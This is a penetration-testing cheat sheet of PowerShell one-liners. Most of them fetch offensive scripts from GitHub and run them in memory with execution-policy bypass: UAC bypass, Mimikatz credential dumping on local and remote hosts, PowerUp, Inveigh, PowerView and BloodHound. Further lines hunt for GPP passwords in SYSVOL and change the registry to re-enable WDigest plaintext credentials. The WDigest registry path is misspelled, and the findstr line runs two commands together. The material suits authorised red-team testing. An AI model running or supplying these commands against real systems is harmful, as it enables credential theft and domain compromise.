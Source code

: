 ```yaml
---
description: Collection of PowerShell one-liners to use at various stages of testing.
---
```


# One-liners

### Invoke-BypassUAC and start PowerShell prompt as Administrator \[Or replace to run any other command] <a href="#invoke-bypassuac-and-start-powershell-prompt-as-administrator-or-replace-to-run-any-other-command" id="invoke-bypassuac-and-start-powershell-prompt-as-administrator-or-replace-to-run-any-other-command"></a>

```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"
```

### Invoke-Mimikatz: Dump credentials from memory

```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```

### Import Mimikatz Module to run further commands

```powershell
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"
```

### Invoke-MassMimikatz: Use to dump creds on remote host

replace $env:computername with target server name(s)\*\*

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"
```

### PowerUp: Privilege escalation checks

```powershell
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”
```

### Invoke-Inveigh and log output to file

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Scripts/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y"
```

Invoke-ShareFinder and print output to file

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"
```

### Import PowerView Module to run further commands

```powershell
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"
```

### Invoke-Bloodhound

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"
```

### Find GPP Passwords in SYSVOL

```powershell
findstr /S cpassword $env:logonserver\sysvol\*.xml findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)
```

### Run Powershell prompt as a different user, without loading profile to the machine

replace DOMAIN and USER\*\*

```powershell
runas /user:DOMAIN\USER /noprofile powershell.exe
```

### Insert reg key to enable Wdigest on newer versions of Windows

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1
```
